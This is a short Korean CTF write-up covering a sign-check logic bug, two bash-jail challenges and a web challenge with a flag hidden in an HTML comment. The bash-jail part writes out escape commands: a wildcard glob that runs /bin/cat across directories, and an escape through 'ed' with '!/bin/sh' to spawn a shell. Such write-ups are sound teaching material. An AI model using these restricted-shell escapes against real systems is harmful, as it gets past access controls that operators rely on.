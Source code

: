 ```
>>> Y
Ok! Party Time :D
FLAG{easy_math_logic_bug_hehe}read(net): Connection reset by peer
```

부호를 체크하지 않는다.

## Bash Jail
https://github.com/InfoSecIITR/write-ups/tree/master/2016/33c3-ctf-2016/misc/hohoho

구글링을 하다가 결국 솔루션을 찾았다.

```
$ nc trustctf.com 27783
$ /???/??? /???? ; #
ELF>?I@@8?@8	@@@@@@?88@8@@@d?d? ??a?h ??a?a?TT@T@DDP?td????A?Q?tdR?td??a?a/lib64/ld-linux-x86-64.so.2GNU GNU?S??h?^H??h???K?r??H
    (...)
/bin/cat: /var/tmp: Is a directory
/bin/cat: /boot: Is a directory
FLAG{how_did_u_get_shell?_wildcard_or_$SHELL}
/bin/cat: /home: Is a directory
/bin/cat: /proc: Is a directory
/bin/cat: /root: Permission denied
/bin/cat: /sbin: Is a directory
$ 
```

## Bash Jail Revenge
```
$ nc trustctf.com 28442
$ ed
!/bin/sh
cat flag
FLAG{mUCh_m0r3_s1mpl3_th4n_y0u_th0ugh7}
```

`ed`에서 명령어를 실행할 수 있다.

# REV

# WEB

## 오디있징 
```html
<h2>어.. 없네</h2>
<!--FLAG{Where_1s_f1ag?!?!!} -->
</body>
</html>
```
